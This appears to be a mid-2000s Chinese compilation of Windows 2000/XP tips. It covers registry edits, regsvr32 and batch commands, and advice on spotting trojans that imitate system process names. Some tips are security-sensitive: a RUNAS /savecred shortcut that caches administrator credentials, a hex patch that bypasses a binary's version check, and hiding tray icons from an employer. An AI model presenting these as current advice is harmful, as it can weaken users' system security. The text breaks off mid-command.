## 好事尽在IT.com.cn一家


## 系统

快速找回丢失的“显示桌面”

当打开很多窗口以后，我们常常通过 Win + D 热键或者单击快速启动栏中的“显示桌面”来快速显示桌面，不过“显示桌面”很容易被删除，以前我们是通过在记事本中输入一段代码，然后保存为“显示桌面.SCF”这样找回的，其实只要在“开始→运行”中输入“regsvr32 /n /i:U shell32”(不包括引号)，重启后即可找回丢失的“显示桌面”。

快速修复“发送到→桌面快捷方式”

鼠标右键中的“发送到→桌面快捷方式”是我们用得非常频繁的命令之一，为深层目录中软件建立桌面快捷方式就得用到它。不过有时候选择了这个命令后却收到“无法创建快捷方式”的错误提示，这可能是注册表损坏或 DLL 文件注册失效而引起的，可以在“运行”中依次输入以下命令，一般都可以解决问题：

- REGSVR32 /S SENDMAIL.DLL
- REGSVR32 /S OLE32.DLL
- REGSVR32 /S /I SHELL32.DLL

禁止 Windows 2000 的 EFS 器

EFS 也就是加密文件系统(Encrypting File System)，它是 NTFS 格式文件系统的一个特性，可用来加密文件、文件夹，高级用户常用来保护自己的隐私，而对普通用户的用处相对不是很大。如果你不想别人乱加密你的文件，可以将它禁止了。打开注册表编辑器，找到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\EFS]，在右侧窗格中新建一个 REG_DWORD 类型的名为 “EfsConfiguration” 的键，键值设置为 1，然后关闭注册表，重启即可。

小提示
非 Windows 2000 用户请慎用！

> 小提示
> 非 Windows 2000 用户请慎用！

改变 i386 资源目录的默认路径

在系统目录中通常都会有一个名为 i386 的文件夹(可通过“搜索”查找到)，它在系统安装或升级服务包(Service Pack)时可以起到缓存的作用。有时磁盘空间不够，可以考虑将这个文件夹的路径改一下腾出占用的空间，比如将路径指到 D：盘，将下面的内容保存为一个 REG 文件，合并到注册表中即可。

```
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Setup]
"SourcePath"="D:"
"ServicePackSourcePath"="D:"
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion]
"SourcePath"="D:\i386"
```

隐藏所有托盘图标

在“开始”上右键选择“属性”，在“任务栏”选项卡下勾选“隐藏不活动的图标”，这样通常可以隐藏部分不活动的图标，这样一定程度上能隐瞒你在干什么(上班族常用哦)。不过有时隐藏得不够彻底结果漏了馅，怎么办呢？

第一步：在刚才所打开的“任务栏”选项卡下单击“自定义”按钮，这里我们可以看到在托盘区出现的所有图标(包括已经关闭的)，而系统默认的托盘“行为”是“在不活动时隐藏”；

第二步：选中其中一个托盘图标的“行为”可发现还有“总是显示”和“总是隐藏”两个选项；

第三步：将所有托盘图标的“行为”改为“总是隐藏”，确认所有选项。这时注意自己托盘区的图标只剩下时间了，其他都隐藏了！这样再配合快捷来使用，老板就很难发现你在干什么了！

给“程序”美容

大部分软件都会在“开始→程序”中建立一个快捷方式或快捷组，我们常常通过它们来快速启动所需要程序。当系统里面安装许多软件后，“程序”菜单常常变得很乱，看起来很不爽，而且还会折叠起来，这样很不利于操作。

这时候我们真的得想个法子给“程序”美容：在“开始”上右键选择“属性”，在“「开始」菜单”选项卡中单击相应的“自定义”(通常是用“经典”模式的“开始”菜单)，在所弹出的窗口中单击“排序”，这样“开始”菜单所有的列表都会按字母顺序(中文则是拼音第一个字母为标准)和先快捷组再快捷方式的顺序排列了；同时，在下边的“高级”选项中取消“使用个性化菜单”，应用设置即可。这样，“程序”是不是好看多了？

屏蔽键盘上的 Windows 键

在键盘上有一些按键你也许很长一段时间都不会用到，可是它们的存在却有可能给我们造成困扰，比方说 Windows 键，在我们玩 CS 的时候就可能因为误触而退出游戏。本技巧仅仅适用于 Windows 2000 SP3 及以上版本。

新建一个文本文件，在其中输入以下内容：

```
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Keyboard Layout]
"Scancode Map"=hex:00,00,00,00,00,00,00,00,02,00,00,00,00,00,5B,E0,00,00,00,00
```

然后将该文件保存为 diswin.reg 文件即可。然后双击该注册表文件，导入后即可。

让 DOS 文件或文件夹的名字显示在左边

在 Windows 2000 或以上系统中，通过“开始→运行”输入“CMD”打开命令提示窗口，然后用“DIR”命令查看文件，我们发现所显示的文件列表和以前的 DOS 是不一样的，它的文件列表信息是“日期→时间→目录(DIR)→文件大小→名字”这样来排列的，和以前的正好相反！这样，让我们这些已经习惯了以前那种排列方式的用户很不习惯，怎么才能回到以前的那种情况呢？

很简单，改变一下用户的环境变量就可以了，方法是：用 Win + Break 组合键打开“系统”属性，在高级标签中单击“环境变量”；单击“新建”打开“新建系统变量”窗口，输入“变量名”为 dircmd，并将“变量值”设置为 /-n，确认所有操作即可。这时，你可以打开命令提示窗口，用 DIR 命令看看文件列表的排列方式是不是习惯多了？

乱码快速纠正

有时打开一些 TXT 文档时，发现里面的内容都是乱码，不能正常显示，那是因为在“记事本”中不能切换编码造成的。一般 IE 的编码都设置为“自动选择”，所以只要把此文档拖到 IE 浏览框，IE 就能选择正确的编码来显示此文档的内容了。

设置非标准刷新率

显示器的刷新率一般有 60HZ、75HZ、85HZ 等刷新频率可以设置，但如果想设置成其他非标准的刷新频率有什么办法呢？在“开始→运行”中输入“dxdiag”，依此打开“其他帮助→替代”，在“替代值”处输入自定义的刷新频率即可。

快速卸载 Media Player 的鼠标右键选项

系统安装 Windows Media Player(简称 WMP)后，在 WMP 所支持的影音文件上右击，可发现该菜单自动添加了“添加到同步列表”和“添加到刻录列表”这两个选项。这样影音文件的右键菜单就可能看起来很乱，比如安装了 Foobar2000 后也会在这些文件的右键菜单中添加自己的控制选项。对于许多朋友来说，这两个选项没多大用处，而且 WMP 资源占用通常比较大，大家通常会选用其他专业的播放软件而非 WMP。其实，可以把这两个选项卸掉，点击“开始→运行”，然后输入“regsvr32 /u wmpshell.dll”，确认弹出窗口即可。

小提示
卸载后，可以通过运行 regsvr32 wmpshell.dll 命令找回已经卸载的选项。

> 小提示
> 卸载后，可以通过运行 regsvr32 wmpshell.dll 命令找回已经卸载的选项。

木马和病毒的惯用伎俩

现在一些非常恶劣的病毒、木马利用用户不敢轻易对系统文件或者系统进程“下手”的弱点，采用障眼法，将自己伪装得和系统文件、进程极其相似，借以避开用户的剿杀：

- ★修改常见程序或进程个别字符：有一个名为“Falling Star”的木马，其进程名称为“internet.exe”，和系统的输入法进程“internat.exe”只差一个字母；而另一种木马病毒“WAY 无赖小子”的服务端进程名称为“msgsvc.exe”，与系统基本进程“msgsvr32.exe”很相似。类似的还有 Explorer.exe 和 Exp1orer.exe (后者用数字“1”取代了字母“l”)等。
- ★修改扩展名：在 Windows 9x 的基本进程中有一个名为 Kernel32.dll 的进程，而著名的冰河木马的服务端进程为 Kernel32.exe，两者只是扩展名不同，很容易就被我们所忽略。另外，如果你发现了“Shell32.exe”这个进程，可千万不要因为它和“Shell32.dll”进程相似就放过，前者可是木马病毒。

禁止 IE 的菜单栏

使用资源管理器或 IE 时，我们通常只需通过工具栏的按钮来操作，比如后退、前进等，如果对这些操作的快捷键熟悉，甚至只需要键盘即可。如果是这样，那么如果能让资源管理器或 IE 不显示菜单栏，不就可以显示更多内容了么？

方法：打开注册表编辑器，找到[HKEY_CLASSES_ROOT\CLSID\{5b4dae26-b807-11d0-9815-00c04fd91972}]，将此分支删除即可。

手工禁止待机

当使用待机命令无法正常进入 STR(挂起到内存)状态，如果实在找不到解决的方法，可以将待机命令禁止，省得不小心运行了这个待机命令给我们带来不必要的麻烦，方法：在记事本中输入以下内容，另存为 DisableDJ.reg，然后将其合并到注册表中，重启即可。

```
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\ACPI\Parameters]
"AMLIMaxCTObjs"=hex:04,00,00,00
"Attributes"=dword:00000070
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\ACPI\Parameters\WakeUp]
"FixedEventMask"=hex:20,05
"FixedEventStatus"=hex:00,84
"GenericEventMask"=hex:18,50,00,10
"GenericEventStatus"=hex:10,00,ff,00
```

留住我的“网上邻居”

在“网上邻居”中有时不能固定地显示出你所在的网络中的所有计算机，应该如何在“网上邻居”中留住这些计算机呢？我们需要用到“静态映射”，使用此方法的前提是必须有基本的网络连接并能够通过“开始→搜索→文件或文件夹→计算机或人”定位这些计算机。下面就跟我来进行静态映射吧。

- 第一步：打开“网上邻居”。
- 第二步：点击“开始→搜索→文件或文件夹→计算机或人”，输入你要搜索的计算机名并点击“搜索”。
- 第三步：当找到该计算机后，将此计算机图标拖动到“网上邻居”中，“网上邻居”中就创建了指向此计算机的快捷方式。

你可以将此快捷方式复制到其他用户的“网上邻居”中。

在Windows 2000/XP中：%SystemRoot%\Profiles\%Username%\NetHood
在Windows 9x中(此文件夹默认隐藏)：%SystemRoot%\Nethood

如果用户已经登录，则必须注销并重新登录后才能使映射生效。

## Capslock、Numlock、Scroll Lock 初始状态随心设

Windows启动后，我们常常希望Capslock、Numlock、Scroll Lock三个键状态能按照自己的习惯初始化(比如Caps Lock关，其他两个开)。其实只要打开注册表编辑器，找到[HKEY_CURRENT_USER\Control Panel\Keyboard]，双击右侧“InitialKeyboardIndicators”，将其值修改为0~7间的数字。值为“0”表示三键均关闭；“1”为Caps Lock开启；“2”为Num Lock开启，“4”为Scroll Lock开启。如果需要同时设置多个键开启，则将其代表的数字相加即可(如三键全部开启则为1 + 2 + 4 = 7)。

## Windows Media Player 也玩截图

在观看电影的时候，有时我们会想到将电影中的精彩瞬间截成图片。大家可能会想到SnagIt等专业抓图软件，或者费尽心机地调整显卡加速设置，有些初学者还很容易将图片抓成“黑屏”，其实利用WMP10自带的截图功能就能实现，方法是：在播放视频文件(如DVDrip、MPEG、AVI等)时，只须在需要截图的时候按下“Ctrl+I”组合键，就能把正在播放中的电影画面截取下来，同时会弹出一个保存图片的窗口，我们可以通过其保存格式的下拉菜单将图片保存为JPEG或BMP格式。

## 修复加密服务故障

当你正在进行安全更新时，突然收到一条关于加密服务故障的错误提示。不用恼火，打开“记事本”，输入以下命令语句并保存为BAT批处理文件：

```
net stop cryptsvc
ren %systemroot%\system32\catroot2 oldcatroot2
net start cryptsvc
regsvr32 softpub.dll
regsvr32 wintrust.dll
regsvr32 initpki.dll
regsvr32 dssenh.dll
regsvr32 rsaenh.dll
regsvr32 gpkcsp.dll
regsvr32 sccbase.dll
regsvr32 slbcsp.dll
regsvr32 cryptdlg.dll
```

执行这个批处理文件，重启后问题解决。

## 恢复光驱的即读即现

你的Windows XP有没有出现过这样的情况？浏览完一张光盘，即使更换到下一张盘片，还是显示上一张盘片的内容。其实这是由于用户设置不当，Windows XP启动了内设的一个镜像功能，它会先将光盘内容制成一个镜像文件保存，以方便用户在取出盘片后依然能读取该盘片数据。但用户无法立即浏览到新插入的光盘，是件挺麻烦的事，如果不喜欢该功能，请点击“开始→设置→控制面板→性能和维护→管理工具→计算机管理”选项，在弹出的“计算机管理”对话框中依次展开“存储→可移动存储→库”，在右侧窗格中找到你的光驱型号。右击光驱图标并选择弹出菜单中的“属性”，在弹出“属性”对话框中点“常规”选项卡，在“延迟卸除”区域将“收回不可装入的媒体”选项后面的时间值由“5分钟”修改为“0分钟”，点击“确定”按钮并关闭“计算机管理”窗口重启电脑即可。

## 同名文件复制一键否决

在大批量复制文件的过程中，如果目标文件夹中存在同名文件，系统会弹出一个对话框询问是否替换原文件？这时，可选择“是”替换该文件，选择“否”不替换该文件，选择“全部”以替换所有同名文件。那么，如果不想替换所有同名文件而又不想中断其他文件的复制，该怎么办呢？可以在按住Shift键的同时单击“否”按钮。这样系统就会自动跳过所有同名文件，而只复制其他文件。

## 让“剪贴板查看器”进驻控制面板

Windows剪贴板为我们在各个Windows程序间的信息交流提供了一个桥梁，但这部分数据一般情况下无法看到，通过剪贴板查看器(System32目录下的clipbrd.exe)就可看到当前剪贴板中的“新大陆”，为此当我们有需要时不要忘记它，可以将“剪贴板查看器”进驻控制面板，方法：将下列的内容保存为一个REG文件，双击合并到注册表中即可(本技巧适用于Windows XP/2003)。

```
Windows Registry Editor Version 5.00
[HKEY_CLASSES_ROOT\CLSID\{4de05bc9-69f6-4bfc-8094-5e1069f2f51f}]
@="剪贴板查看器"
"InfoTip"="启动剪贴板查看器"
[HKEY_CLASSES_ROOT\CLSID\{4de05bc9-69f6-4bfc-8094-5e1069f2f51f}\DefaultIcon]
@="%SystemRoot%\\System32\\clipbrd.exe,0"
[HKEY_CLASSES_ROOT\CLSID\{4de05bc9-69f6-4bfc-8094-5e1069f2f51f}\Shell\Open\command]
@="clipbrd.exe"
[HKEY_CLASSES_ROOT\CLSID\{4de05bc9-69f6-4bfc-8094-5e1069f2f51f}\ShellFolder]
"Attributes"=dword:00000030
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\ControlPanel\NameSpace\{4de05bc9-69f6-4bfc-8094-5e1069f2f51f}]
@="Add Clipboard to the Control Panel"
```

## 卸载无法卸载的WebFldrs

很多朋友反映系统程序列表中出现了一个未知的程序——WebFldrs XP，而自己从未安装过此类软件，很多朋友想要从系统中卸载此程序却发现无法正常卸载。其实，要卸载此程序需要用到一行命令(其中的路径请根据系统路径进行修改)。

```
msiexec /x C:\Windows\System32\webfldrs.msi
```

## 用IE也能解除右键屏蔽

Windows中自带的IE浏览器仍然是使用人数最多的浏览器之一，可是Maxthon、Green Browser等浏览器所具有的解除右键屏蔽功能IE却没有实现。那么在IE中只能眼睁睁地为了个小小的屏蔽放弃了保存美图的机会。

- (1) 将鼠标指针移动到要储存的图片上，按住鼠标右键不放，当警告对话框出现后按下键盘上的回车键，对话框就会关闭。
- (2) 松开鼠标右键后，弹出菜单出现，这时就能使用“图片另存为”保存图片了。

## 进程信息要看完全

我们通过系统自带的“任务管理器”可以查看当前系统中所有运行的程序的进程信息，但是却无法查看该程序的文件的具体路径等更详细的信息。难道真的必须下载其他第三方工具才能把系统进程看个通通透透吗？

- (1) 查看进程对应的程序文件路径：点击“开始→程序→附件→系统工具→系统信息”，选择左侧树状目录中的“软件环境→正在运行任务”即可看到进程文件的路径。
- (2) 查看已加载的模块：同样也在“系统信息”中，选择左侧树状目录中的“软件环境→加载的模块”。
- (3) 查看进程的PID：有些系统小工具在使用时会需要进程的PID，打开“任务管理器”的“进程”选项卡，选择菜单“查看→选择列”，在弹出窗口勾选“PID(进程标识符)”，点击“确定”即可。

## 左撇子轻松复制粘贴

Windows的复制、粘贴的快捷键分别为Ctrl + C和Ctrl + V，这对于右手握鼠标、左手待命于键盘上的80%用户而言非常方便。但曾有个左撇子朋友问我，难道微软没有考虑到这剩下的20%的左撇子用户吗？系统自带的粘滞键功能大大方便了不少残疾朋友，没有理由不设置左撇子式的复制与粘贴快捷键啊！如果大家身边也有这样属于那20%的朋友，不妨郑重地告诉他们：当你左手使用鼠标时，用右手按Ctrl + Insert组合键等同于Ctrl + C(即复制)，而Shift + Insert则等同于Ctrl + V(即粘贴)。

## MS-JVM轻松卸

很多Windows用户都有这样的疑惑：安装了SUN公司的Java Runtime之后，原来Windows自带的MS-JVM(微软公司提供的系统自带Java虚拟机)该如何删除？请教了网上的“大虾”之后，得知需要修改注册表、删除系统文件……繁琐的操作让很多对系统不甚熟悉的用户望而却步。其实微软官方已经提供了其自带的MS-JVM的卸载工具(下载地址：http://www.newhua.com/cfan/200504/unmsjvm.exe)，下载解压后直接执行并选择同意协议就完成了卸载，并且无须重启即可生效。

## 多文件打开回车键有妙招

我们经常需要同时打开多个文件，这时高手的鼠标运用得纯熟与否就直接与打开文件的速度有直接关系了。可是打开文件真的需要如此狂点吗？其实用回车键就可以搞定：用鼠标框选要打开的文件(文件类型必须一致，比如都是TXT或都是BMP等)，按下键盘上的回车键，多个文件就自动同时打开了。

## 快速查看进程中的服务

想知道自己操作系统中某个进程是不是病毒，或这个进程有没有成为病毒宿主，查看一下挂靠在进程上的服务吧，说不定能找出“化身”为系统服务的后门。首先点击“开始→运行”，在运行输入框中输入“CMD”(不含引号)并回车，根据自己的系统类型在命令行窗口中输入以下命令：

- Windows 2000: tlist -s
- Windows XP: tasklist /svc

命令执行后将列出系统中进程所包含的服务，如果发现系统进程(如svchost.exe)中挂接了“BlackDoor”等后门服务，不要犹豫，赶快杀毒吧。

## WMP 让 MP3 有“面子”

经常用WMP听MP3的朋友都会发现，有MP3音乐的“唱片集信息”栏中镶有漂亮的图片，而我自己转换的MP3音乐中为什么没有呢？经过一番研究终于发现了让MP3有“面子”的方法: 首先在WMP主界面右侧的播放列表中右击需要添加图片的MP3，在弹出菜单中选择“高级标记编辑器”，在随后出现的对话框中选择“图片”选项卡，再点击“添加”按钮，在文件选择框中选择一张图片，确定后就可为自己的MP3文件添加上漂亮的唱片集信息图片了(在Windows XP+WMP9.0下测试通过)。

（心随移动）

## 让 XP 的搜索结果更快更准

在默认情况下，Windows XP 不会搜索某些目录中的文件，并且其对文件内容搜索的支持也不是很完善。如何让Windows XP的搜索结果更快更准呢?

- 1. 打开“注册表编辑器”，点击左侧的树状目录展开注册表分支，定位到 [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer]。
- 2. 在右侧框中分别将 CaseSensitive、IncludeSubFolders、SearchHidden、SearchSlowFiles、SearchSystemDirs(均为DWORD值，如没有并创建) 这4个键值修改为1，可以最大限度地扩大搜索范围。
- 3. 定位到[HKEY_CLASSES_ROOT]分支，这里是控制文件内容搜索所支持的文件类型，可以将一些较常见的文件类型加入其中，以HTM格式为例(如果已有该分支，则直接修改其默认值即可): 在该分支新建一个名为“HTM”的项，再在HTM项下新建一个名为“PersistentHandler”的子项并将其默认值修改为“{5e941d80-bf96-11cd-b579-08002b30bfeb}”(项名及值均不含外侧中文引号)。

让搜索更快: 可将[HKEY_CLASSES_ROOT]分支下不需要进行内容搜索的文件类型删除。点击“开始→搜索→文件或文件夹”，在搜索窗口中点击“改变首选项→使用制作索引服务→是的，启动制作索引服务”。这样在系统处于空闲时，就会自动将硬盘中的文件编制索引并加以维护以提高搜索速度。

（狐狸小五狼）

## 多系统轻松共享“极点中文”

“极点中文”是一款非常优秀的免费五笔输入法，笔者的许多朋友现在都用上了它，有些朋友安装了多个操作系统，为了在多个系统中使用“极点中文”难道一定要分别在其下安装一遍吗? 当然不必这么麻烦，其实只需要在硬盘中已安装的任一操作系统中安装一次“极点中文”，在其他操作系统里，运行其安装目录中的 registry.exe 即可自动重新注册输入法组件，重启后即可正常使用了。

（闫艳力）

## 在桌面的时钟旁显示自己的名字

系统托盘中的时钟大家都见过，可是你是否见过在时钟旁边显示你的名字呢(如“佐助 16:00”)?

- 1. 点击“开始→设置→控制面板”，在“控制面板”中双击“区域和语言选项”。
- 2. 选择“区域选项”选项卡，点击“标准和格式”栏中的“自定义”按钮。
- 3. 在弹出的“自定义区域选项”窗口中打开“时间”选项卡，在其中的“时间格式”选择框的内容尾部加上“tt”(不含引号，完成后应为“tt H:mm:ss”)。
- 4. 将其下的“AM符号”和“PM符号”都修改为你自己的名字(如“佐助”)，依次点击“确定”关闭设置窗口，此时系统托盘中的时钟已经显示了你的名字。

（佐助）

## 玩完游戏也要快速关机

大家如果经常玩一些大型游戏的话(如: FIFA2005)，可能经常会出现这样的情况: 结束游戏后马上注销用户或关闭系统会非常缓慢，需要等待很长一段时间才能完成注销或关闭操作。这是由于在游戏关闭后，系统还没有来得及完全释放其内存资源。其实这时只要在关闭或注销前按下“Ctrl+Alt+Del”打开“任务管理器”，选择菜单“查看→立即刷新”，反复执行几次刷新操作。然后再关闭系统或注销用户，这样速度就会明显加快。

（fengyan）

## 就为一“点”别想让我切换输入法

使用“智能 ABC”输入中文时，经常会遇到需要输入点(即“.”)的情况，如小数点、文件扩展名前的点、网址中的点。许多人为了这一“点”不得不按“Ctrl+Space”键来切换中英文输入法，操作非常麻烦不说而且在Windows 98下常常会因此而导致程序发生错误。其实我们可以使用键盘右侧数字小键盘上的“Del”键，这个“.”键不受任何输入法(当然也包括“智能 ABC”)的影响，可以随时轻易地输入这一“.”了。

（木头人）

## 彻底删除收藏夹中的“链接”

打开“资源管理器”或IE窗口，在“收藏夹”的下拉列表中总有个“链接”的分支。如果经常使用收藏夹，就会发现当进行分类操作时这个“链接”总是有点碍手碍脚的，由于它是系统的部件，一般的方法是删除不掉它的，怎么样才能彻底的将其删除呢?

- 1. 打开“注册表编辑器”，找到[HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Toolbar]，在右侧窗格中选中名为 LinksFolderName 的键，将其键值改为空，关闭“注册表编辑器”。
- 2. 打开IE窗口，在“收藏”的下拉列表中“链接”上点击右键，并选择“删除”，确认操作后即可。这样IE收藏夹就不会自动重建“链接”分支了。

（yoyo）

## Windows Media Player 默认路径随你设

用Windows Media Player(简称WMP)播放某个媒体文件时，它将会把媒体文件的路径存储下来，当下一次选择菜单“文件→打开”时，默认路径还是该目录，不过如果在启动WMP后选择菜单“文件→打开”，然后选择“取消”，这样WMP的默认打开路径就会变回到最原来的“C:\Program Files\Windows Media Player”(根据系统安装位置可能略有不同)，如果想让WMP的默认打开路径固定在某个目录，可以将下列内容保存为WMP.VBS并运行之，这样WMP的默认打开文件的路径将固定为F:\music(其他目录可自行更改)。

```
Set WshShell = CreateObject("WScript.Shell")
StartDir = "F:\music"
WshShell.RegWrite _
"HKCU\Software\Microsoft\MediaPlayer\Player\Settings\OpenDir", StartDir, "REG_SZ"
WshShell.Run "wmplayer", 1, True
Set WshShell = Nothing
```

（weiyu）

## 快速隐藏所有缩略图的文件名

在Windows XP中的缩略图功能为我们查看大量的图片文件时提供了方便，不过通常情况下缩略图的文件名也一并被显示出来，这样缩略图的图标所占用的空间就会大一点。有时我们并不需要查看文件名，而且希望显示文件名这块的位置空出来以便一屏能够显示更多的图片。在切换到“缩略图查看方式”时按住Shift键将可以隐藏文件名。如果重复此项操作则可以恢复显示文件名，有时会给你带来方便哦。

## “堵”住系统托盘的“嘴”

在办公室或其他比较“公共”的场合，有时你开个 QQ 或者 MSN 却不想让别人知道。系统托盘中出现的程序图标却总是暴露你的秘密。怎么才能堵住系统托盘的“嘴”，让其不显示程序图标呢?

- 1. 通过“开始→运行”，在“运行”输入框中输入 gpedit.msc，打开“组策略编辑器”。
- 2. 依次定位到“用户配置→管理模板→任务栏和开始菜单”，双击右侧窗口中的“隐藏通知区域”，将其设置为“已启用”，确认操作并退出编辑器。
- 3. 此时，隐藏通知区域(即系统托盘)并没有开始起作用，通常需要我们注销或重启系统(即让系统重新调用Explorer.exe进程)才能生效。如果你不想重启系统也可以通过“Ctrl+Shift+Esc”组合键打开“任务管理器”，选中并结束Explorer.exe进程，然后再重新运行此进程，这时系统托盘就会被彻底的隐藏起来了。

## 小提示

如果需要在不影响当前运行的任务的情况下(即不重启不注销)，重新显示系统托盘，可以将组策略中的值恢复，然后重新调用一次Explorer进程即可。

（weiyu）

## 双击驱动器或文件夹却打开“搜索助理”的问题

这是一个经常发生在Windows XP系统中的故障，使用电脑时只要双击任何一个驱动器或文件夹，打开的总是“搜索助理”(当然也可能是其他的程序)，这个其实是文件关联的问题，不管是驱动器还是文件夹，其实都被系统看作一个特殊的“文件”，只要是文件就会有文件关联的问题。通俗点说就是“驱动器”或“文件夹”这样的“文件”，系统就用“搜索助理”来打开。解决方法如下:

- 1. 注册表修改法
  - (1)启动“注册表编辑器”(Regedt32.exe)。
  - (2)如果问题出在文件夹上，找到并单击下列注册表项下的“Default”值: [HKEY_CLASSES_ROOT\Directory\shell]如果问题出在驱动器上则为: [HKEY_CLASSES_ROOT\Drive\shell]。
  - (3)单击编辑菜单上的修改，在数值数据框中键入“none”，然后单击确定，退出“注册表编辑器”后即可。
- 2. DLL注册法
  - 通过“开始→运行”输入命令“regsvr32 /i shell32.dll”(不含引号)，确认弹出窗口即可。

（weiyu）

## 让“记事本”认识未知文件

经常在Windows中发现许多奇奇怪怪扩展名的文件，而其中很大一部分虽然不是TXT扩展名，但却是以文本格式保存的，而每次要用“记事本”打开此类文件时都必须选择打开方式，非常不便。其实可以让“记事本”认识未知文件。

- 1. 打开“记事本”，输入以下内容并保存为 opnote.reg(也可从 http://www.newhua.com/cfan/200507/opnote.rar 下载):

```
REGEDIT4

[HKEY_CLASSES_ROOT\Unknown\shell]
@="openas"

[HKEY_CLASSES_ROOT\Unknown\shell\openas]

[HKEY_CLASSES_ROOT\Unknown\shell\openas\command]
@=hex(2):25,53,79,73,74,65,6d,52,6f,6f,74,
25,5c,73,79,73,74,65,6d,33,32,5c,72,
75,6e,64,6c,6c,33,32,2e,65,78,65,20,25,53,
79,73,74,65,6d,52,6f,6f,74,25,5c,
73,79,73,74,65,6d,33,32,5c,73,68,65,6c,6c,
33,32,2e,64,6c,6c,2c,4f,70,65,6e,
41,73,5f,52,75,6e,44,4c,6c,20,25,31,00
```## 未经允许，严禁用闪存盘

有很多高科技企业禁止员工携带闪存盘进入公司，主要目的就是防止公司资料外泄，而Windows XP SP2正好提供了一项让闪存盘只能读取无法写入的功能，这么一来老板就比较不用担心公司的资料被员工带走了。

- 1. 运行regedit.exe打开“注册表编辑器”，在[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control]分支下新建名为[StorageDevicePolicies]的项。
- 2. 选择刚才新建的项，在右侧的工作窗格点击鼠标右键，从菜单中选择“新建→DWORD值”，并将新建DWORD值的名称设为“WriteProtect”（不含引号）。
- 3. 右击“WriteProtect”，在菜单中选择“修改”，接着在“数据”编辑框中填入数字“1”（不含引号）后点击“确定”，重启电脑后生效。将WriteProtect的键值修改为“0”即可恢复闪存盘写入功能。

## Windows 2000 也用命令行计划任务

在Windows XP中可以在命令行方式下运行schtasks.exe来使用计划任务，但在Windows 2000下却不能这样做。我们可以将Windows XP中的schtasks.exe移植到Windows 2000中，但当我们直接将这个文件复制过去并运行时，会出现“ERROR: The Target system must be running Windows XP or above.”的错误提示。其实只需稍加修改，就能破解这个限制。

- 1. 用十六进制编辑器（如UltraEdit, WinHEX等）打开schtasks.exe。
- 2. 定位到0x0000CB2A（此为原版的位置，SP1中则修改:0x0000CC50, SP2则修改:0x0000E3F8），将该位置上原来的75改为EB。
现在这个文件已经能在Windows 2000下正常使用了。

## 管理员权限玩游戏

在Windows XP中，经常会遇到游戏运行时提示权限不够的情况，并提示以管理员权限运行该游戏。你可以通过右击程序选择“运行方式”来以其他用户身份来运行游戏，但为了更方便，我们可以按如下方式操作：

- 1. 确定“以其他用户身份运行”功能可用（在系统中有相关的“服务”，默认情况下启用）。
- 2. 通过“新建→快捷方式”的方法在桌面上新建一个快捷方式，在向导中的“请键入项目的位置”处输入“RUNAS /noprofile /savecred /user:”%ComputerName%\Administrator” “<游戏程序的完整路径>”（不含外侧中文引号，“游戏程序的完整路径”应替换为游戏主程序的EXE文件路径）。
- 3. 双击桌面上刚才新建的快捷方式，第一次运行时会要求输入管理员密码（输入密码时不回显，请勿输错），输入后即可进行游戏了。

## 我的右键不再“迟疑”

在安装了一些主板集成的显卡驱动后（这里以Intel 81X系列主板的驱动为例），在桌面上点击右键就会增加一些属性选项，这样可能会造成右键点击桌面时菜单显示迟缓的问题。如果要删除该选项，只需打开“注册表编辑器”，将[HKEY_CLASSES_ROOT\Directory\Background\shellex\ContextMenuHandlers]下包含的子项中除“New”以外的键都删掉，重启系统即可。另外，针对Intel 81X系列主板的驱动，在“开始→运行”中执行“regsvr32 /u igfxpph.dll”（不含引号），这样同时也去除了“控制面板→显示→设计→高级”中的Intel GMA Driver选项，恢复时只须执行“regsvr32 igfxpph.dll”命令即可。

## 桌面操作也玩拨云见日

当打开的窗口很多的时候，如果要将一些文件拖动到某个桌面图标上（比如“回收站”图标，很多人在文件删除操作时都使用这种方法），而这个图标又恰恰被其他打开的窗口挡住了，这时就要最小化所有的窗口后再进行操作，步骤比较烦琐。其实，在Windows XP中隐藏着一个人性化的功能，就是当窗口打开的时候，如果你想将某些文件拖入被挡住的桌面图标，只须先将文件点住拖到任务栏上，不要松开左键，使光标在任务栏上持续1到2秒钟（注意会有一个禁止符号出现），所有打开的窗口就自动最小化到任务栏上了，此时就可以继续原来的拖拽操作了。

## 对付恶意程序 岂能坐以待毙

杀毒软件不是万能的，没有杀毒软件却是万万不能的，而如果不幸地遇到杀毒软件无法查杀的恶意程序时，不熟悉系统进程的菜鸟们根本无从判别哪个是病毒，哪个是正常的进程，难道只能坐以待毙了吗？大多数恶意程序都会在[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]下生成启动项，并且对各项的变化进行监视以防止被删，一旦删除了该恶意程序的启动项，就会立即自动恢复。这个病毒自我保护的手段恰恰可以帮助我们找出它的弱点。

- 1. 运行regedit.exe，打开“注册表编辑器”，找到并选中上文提到的注册表自启动项。然后选择“文件→导出”，把该项下的所有内容保存为一个REG文件。
- 2. 删除该项下的所有键值，不断按F5刷新注册表内容，几秒后在右侧的窗格中自动出现的即为恶意程序的自启动项。
- 3. 知道了恶意程序的文件名，要将其清除就非常简单了。在“进程管理器”中将该恶意进程中断，然后根据注册表项中的文件路径删除该文件（如果没有完整的路径，则说明恶意程序在系统目录下），最后根据刚才导出的注册表文件的内容恢复正常的自启动项目。

## 找回IE的默认地位

喜欢追新的人们当然不会放过眼下正火的Firefox浏览器。在将其设置为默认的浏览器并使用了一段时间后，如果想要恢复为IE的默认浏览器位置，可以通过右击桌面上的IE图标，选择“属性”打开“Internet属性”，在“程序”选项卡中单击“重置 Web 设置”按钮，然后在弹出的窗口中确认，这样就可以恢复使用IE作为默认浏览器。不过，有很多用户在点击该按钮后，系统并没有响应操作。这时我们可以通过在“开始→运行”中依次执行下列命令来解决这个问题。

```
regsvr32 wshom.ocx
regsvr32 jscript.dll
